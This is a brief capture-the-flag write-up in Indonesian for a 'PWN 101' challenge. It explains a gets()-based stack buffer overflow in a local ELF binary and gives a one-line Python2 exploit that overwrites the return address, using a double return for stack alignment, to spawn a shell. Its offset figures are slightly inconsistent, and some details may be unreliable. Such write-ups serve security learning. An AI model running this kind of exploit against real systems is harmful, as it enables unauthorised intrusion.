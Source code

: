 # PWN 101 | Pwn

## Solution
- Terdapat file ELF binary yang menerima input user menggunakan fungsi gets yang vuln buffer overflow
- Nilai buffer adalah 0x90, jadi untuk mengoverwrite nilai v6 yang ada di rsp dubutuhkan sebanyak 140 buffer
- Karena stack harus 16 bit maka kita harus melakukan 2x return ke address
- Exploit
```
(python2 -c 'import struct; print "\x90"*136 + struct.pack("Q", 0x0000000000401190) + struct.pack("Q", 0x0000000000401196)'; cat) | ./bo2
```
- Shell tereksekusi

